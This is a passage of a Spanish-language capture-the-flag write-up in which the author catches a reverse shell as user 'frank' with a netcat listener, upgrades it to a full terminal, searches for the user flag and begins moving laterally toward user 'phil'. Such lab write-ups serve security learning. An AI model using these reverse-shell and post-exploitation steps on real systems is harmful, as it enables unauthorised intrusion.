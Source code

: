 Ahora hacemos lo siguiente para poder hacer `CTRL+C`

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.204 38528
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
frank
bash-5.0$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
bash-5.0$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
bash-5.0$ export TERM=xterm
```

Pues bueno no vemos la flag

```bash
bash-5.0$ ls -la
total 36
drwxr-xr-x 7 frank frank 4096 Jul  7 17:55 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
drwxr-xr-x 3 frank frank 4096 Jul  7 05:20 .ansible
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
drwxr-xr-x 2 frank frank 4096 Jul  7 17:57 .ssh
bash-5.0$ 
```

Si la buscamos tendremos que convertirnos en el otro usuario  

```bash
bash-5.0$ find / -name user.txt -type f 2>/dev/null
/home/phil/user.txt
bash-5.0$ 
```

## Shell as phil

Si nos vamos al directorio de `frank` vemos un `.m2`

```bash
bash-5.0$ ls -la
total 36
drwxr-xr-x 7 frank frank 4096 Jul  7 17:55 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
drwxr-xr-x 3 frank frank 4096 Jul  7 05:20 .ansible
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
drwxr-xr-x 2 frank frank 4096 Jul  7 17:57 .ssh
```
